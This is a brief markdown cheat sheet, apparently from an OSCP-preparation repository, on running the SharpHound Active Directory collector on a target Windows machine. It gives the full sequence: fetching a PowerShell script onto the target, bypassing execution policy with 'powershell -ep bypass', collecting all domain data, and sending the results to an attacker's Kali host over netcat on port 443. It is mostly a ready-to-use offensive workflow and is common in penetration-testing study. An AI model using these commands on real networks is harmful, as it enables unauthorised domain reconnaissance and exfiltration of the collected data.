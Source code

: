 ## Sharphound Github Repo: 
https://github.com/BloodHoundAD/SharpHound

## Documentation:
https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html

https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound-all-flags.html

### Step:
Download file "https://github.com/hackersupcoming/My_OSCP_tools/blob/main/Sharphound/sharphound.ps1" in target system
powershell -ep bypass
Import-Module .\sharphound.ps1
Invoke-Bloodhound
Get-Help Invoke-Bloodhound  ## To check commands
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\username\Desktop\ -OutputPrefix "output"

### To Tranfer file from windows to kali:
In Windows: nc.exe -w 3 kali-ip 443 < file-to-transfer
In Kali: nc -lvp 443 > output-filename
